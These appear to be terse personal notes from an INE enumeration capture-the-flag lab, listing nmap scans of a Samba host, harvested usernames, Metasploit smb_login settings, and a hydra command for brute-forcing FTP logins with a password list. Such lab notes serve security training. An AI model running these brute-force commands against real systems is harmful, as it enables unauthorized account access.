 Assessment Methodologies: Enumeration CTF 
`nmap -sC -sV target.ine.local — min-rate 1000`
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2

josh
nancy 
bob

use auxiliary/scanner/smb/smb_login
set RHOSTS 192.2.168.3
set SMBUser josh
set PASS_FILE /root/Desktop/wordlists/unix_passwords.txt
set createsession true
run

`sessions 1`
`shares -i josh` 
josh purple

`nmap -p- target.ine.local `
scan all port

`ftp -p target.ine.local 5554`
Connected to target.ine.local.
220 Welcome to blah FTP service. Reminder to users, specifically ashley, alice and amanda to change their weak passwords immediately!!!
Name (target.ine.local:root): 


`hydra -l admin -P passwords.txt -s 5554 192.248.251.3 ftp -t 64`
meta ช้ามาก ไม่แนะนำ (-L -> file)